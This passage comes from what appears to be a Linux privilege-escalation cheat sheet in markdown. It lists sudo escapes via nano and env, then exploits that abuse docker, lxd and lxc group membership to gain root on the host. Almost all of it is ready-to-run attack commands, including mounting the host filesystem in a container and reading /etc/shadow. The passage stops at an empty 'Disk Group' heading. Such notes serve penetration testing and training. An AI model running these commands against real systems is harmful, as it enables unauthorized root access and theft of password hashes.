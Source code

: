 **nano:**
```bash
sudo nano
# Then: Ctrl+R, Ctrl+X
# Type: reset; sh 1>&0 2>&0
```

**env:**
```bash
sudo env /bin/sh
```
---

## Priority 2: Group Membership

### Check Your Groups

```bash
id
groups
```

### Docker Group Exploitation

```bash
# If you see "docker" in groups:
id | grep docker

# Exploit (instant root):
docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# You're now root on the host!
cd /root
cat /etc/shadow
```

### LXD/LXC Group Exploitation

```bash
# If you see "lxd" in groups:
id | grep lxd

# Exploit:
lxc init ubuntu:18.04 privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/sh

# Navigate to host root
cd /mnt/root/root
```

### Disk Group
